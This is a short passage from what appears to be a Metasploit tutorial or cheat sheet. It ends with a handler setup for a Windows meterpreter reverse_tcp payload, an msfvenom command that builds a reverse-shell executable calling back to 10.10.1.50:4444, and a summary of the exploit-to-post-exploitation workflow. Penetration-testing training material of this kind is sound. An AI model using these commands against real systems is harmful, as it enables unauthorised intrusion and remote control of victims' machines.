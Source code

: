 ```text
creds; loot

# msfvenom + handler (example)
use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set LHOST 10.10.1.50
set LPORT 4444
set ExitOnSession false
run -j
# generate: msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.1.50 LPORT=4444 -f exe -o shell.exe

# Cleanup
spool off
exit -y
```

## Summary
- Metasploit streamlines the exploit workflow: scan/import → enumerate → exploit → session → post.
- Know core commands: search, use, info, show options, set, run/exploit, sessions, background.
- Leverage auxiliary scanners for fast service validation; use info/check to reduce blind exploitation.
- Manage sessions effectively; upgrade shells and run post modules for quick wins.
- Use msfvenom and exploit/multi/handler to deliver and receive custom payloads.
- Keep data organized via workspaces and the database; log your work and save rc files for reproducibility.